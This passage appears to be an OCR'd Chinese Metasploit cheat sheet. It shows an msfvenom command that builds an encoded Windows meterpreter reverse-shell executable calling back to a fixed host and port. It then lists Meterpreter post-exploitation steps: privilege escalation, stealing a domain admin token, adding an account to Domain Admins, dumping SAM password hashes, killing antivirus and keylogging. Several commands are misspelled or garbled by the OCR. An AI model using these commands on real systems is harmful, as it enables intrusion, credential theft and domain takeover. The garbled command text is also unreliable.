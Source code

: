 7.MSFvenom

利用MSFvenom，一个集成套件，来创建和编码你的攻击载荷。

msfvenom --payload

windows/meterpreter/reverse_tcp --format exe --encoder x86/shikata_ga_nai LHOST=172.16.1.32 LPORT=443 > msf.exe

[*] x86/shikata_ga_nai succeeded with size 317(iteration=1)

root://opt/framework3/msf3#

这一行命令就可以创建一个攻击载荷并自动产生出可执行文件格式。

8.Meterpreter后渗透攻击阶段命令。

在Windows主机上使用metarpreter进行提权操作。

meterpreter>use priv

meterpreter>getsystem

从一个给定的进程ID中窃取一个域管理员组令牌，添加一个域账户，并把域账户添加到域管理员组中。

meterpreter>ps

meterpreter>steal_token 1784

meterpreter>shell

c:\windows\sysem32>user metasploit @password /ADD /DOMAIN

c:\windows\sysem32>net group "Domain Admins" metasploit /ADD /DOMAIN

从SAM数据库中导出密码的哈希值。

meterpreter>use  priv

meterpreter>getsystem

meterpreter>hashdump

提示：在widonws 2008中，如果getsystem命令和hashdump命令抛出异常情况时，你需要迁移到一个以SYSTEM系统权限运行的进程中。

自动迁移到一个独立进程。

meterpreter>run migrate

通过meterpreter的killav脚步来杀死目标主机运行的杀毒软件进程。

meterpreter>run kallav

针对一个特定的进程捕获目标主机上的键盘记录：

meterpreter>ps

meterpreter>migrate 1436

meterpreter>kayscan_start

meterpreter>kayscan_start

meterpreter>keyscan_dump
